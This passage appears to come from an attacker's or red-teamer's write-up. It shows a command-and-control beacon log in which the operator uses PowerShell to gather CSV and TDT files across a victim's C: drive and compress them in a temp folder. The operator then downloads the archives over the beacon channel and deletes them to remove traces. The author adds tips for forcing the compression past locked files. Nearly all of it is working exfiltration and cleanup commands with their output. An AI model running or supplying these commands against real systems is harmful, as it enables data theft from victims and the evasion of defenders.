 ```
..[snip]..

beacon> powershell gci -recurse -path c:\ -filter *.csv | compress-archive -destinationpath C:\Windows\Temp\junk\csv-files.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path c:\ -filter *.csv | compress-archive -destinationpath C:\Windows\Temp\junk\csv-files.zip -compressionlevel optimal -force
[+]host called home, sent: 645 bytes
[+] received output:
..[snip]..

beacon> powershell gci -recurse -path c:\ -filter *.tdt | compress-archive -destinationpath C:\Windows\Temp\junk\maintance.zip -compressionlevel optimal -force
[*] Tasked beacon to run: gci -recurse -path c:\ -filter *.tdt | compress-archive -destinationpath C:\Windows\Temp\junk\maintance.zip -compressionlevel optimal -force
[+]host called home, sent: 645 bytes
[+] received output:
..[snip]..
```

Sometimes when I receive errors that some documents or files might be occupied with other programs such as, microsoft office suite that the user (the victim) is interacting with it or whatever the reason that windows is being a bitch. I had to specify the flag `-Force` or exclude it. I was doing a bit of trial and error during the process. So keep that in mind.

Now we download them and remove the archived files and the `junk` folder.

```
beacon> download C:\Windows\Temp\junk\csv-files.zip
[*] Tasked beacon to download C:\Windows\Temp\junk\csv-files.zip
beacon> download C:\Windows\Temp\junk\maintance.zip
[*] Tasked beacon to download C:\Windows\Temp\junk\maintance.zip
[+] host called home, sent: 84 bytes
[+] started download of C:\Windows\Temp\junk\csv-files.zip (374501 bytes)


[+] started download of C:\Windows\Temp\junk\maintance.zip (2454197 bytes)


[+] download of csv-files.zip is complete

[+] download of maintance.zip is complete

beacon> rm C:\Windows\Temp\junk\csv-files.zip
[*] Tasked beacon to remove C:\Windows\Temp\junk\csv-files.zip
beacon> rm C:\Windows\Temp\junk\maintance.zip
[*] Tasked beacon to remove C:\Windows\Temp\junk\maintance.zip
[+]  host called home, sent: 122 bytes
beacon> rm C:\Windows\Temp\junk
[*] Tasked beacon to remove C:\Windows\Temp\junk
[+]  host called home, sent: 61 bytes
```

Sadly not all of them were archived and I had to give up on it. Not everything works users :(
